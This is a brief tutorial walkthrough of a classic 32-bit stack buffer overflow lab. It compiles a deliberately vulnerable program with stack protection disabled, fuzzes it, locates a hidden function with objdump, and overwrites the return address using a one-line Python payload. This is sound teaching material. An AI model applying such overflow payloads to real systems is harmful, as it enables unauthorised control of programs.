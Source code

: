 For a freeish cloud VM, check out cloud.google.com, you get $300 credit towards compute for your first year. This can also be done in any linux virtual machine you build.

The code and example is from https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/

If you don't get the same memory address for vuln.c, you'll have to work on it. Or...: wget https://dhavalkapil.com/assets/files/Buffer-Overflow-Exploit/vuln

```
vi vuln.c
gcc vuln.c -o vuln -fno-stack-protector -m32
./vuln
vi fuzz.py
python fuzz.py
objdump -d vuln
objdump -d vuln | grep secret
python -c 'print "a"*32 + "\x9d\x84\x04\x08"' | ./vuln
```
